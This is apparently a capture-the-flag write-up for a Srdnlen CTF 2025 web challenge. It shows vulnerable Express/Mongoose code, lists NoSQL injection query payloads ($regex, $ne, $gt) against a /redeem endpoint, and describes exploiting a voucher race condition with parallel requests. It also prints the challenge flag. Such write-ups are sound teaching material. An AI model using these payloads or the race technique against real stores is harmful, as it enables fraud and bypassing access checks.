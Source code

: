 ```yaml
---
date: 2025-01-19
description: NoSQLi + Race Condiition on vouchers
platform: Srdnlen CTF 2025
categories: Web
tags:
  - nosqli
  - race-condition
  - code-review
  - expressJS
  - mongoose
  - mongoDB
duration:
---
```

# Focus. Speed. I am speed.
Welcome to Radiator Springs' finest store, where every car enthusiast's dream comes true! But remember, in the world of racing, precision matters—so tread carefully as you navigate this high-octane experience. Ka-chow!

# Vulnerability 
## nosqli 
`routes.js/redeem`
```js
let { discountCode } = req.query;
const discount = await DiscountCodes.findOne({discountCode})
```
payloads 
```
redeem?discountCode[$regex]=.*H.* 
redeem?discountCode[$ne]=a
redeem?discountCode[$gt]=""
```

## Race Condition 
`routes.js /redeem`
> allows multiple gift card to be used before getting invalidated 
```js
        // Apply the gift card value to the user's balance
        const { Balance } = await User.findById(req.user.userId).select('Balance');
        user.Balance = Balance + discount.value;
        // Introduce a slight delay to ensure proper logging of the transaction 
        // and prevent potential database write collisions in high-load scenarios.
        new Promise(resolve => setTimeout(resolve, delay * 1000));
        user.lastVoucherRedemption = today;
        await user.save();
```

> mongoose search injection vulnerability ?
```bash
npm audit
mongoose  <8.9.5
Severity: critical
Mongoose search injection vulnerability - https://github.com/advisories/GHSA-vg7j-7cwx-8wgw
fix available via `npm audit fix --force`
Will install mongoose@8.9.5, which is a breaking change
node_modules/mongoose
```

# Attack
1. Login to the application
2. Send group (parallel) request in repeater for any working payload `/redeem?discountCode[$ne]=a`

![](_attachments/Pasted%20image%2020250119210336.png)

flag: `srdnlen{6peed_1s_My_0nly_Competition}`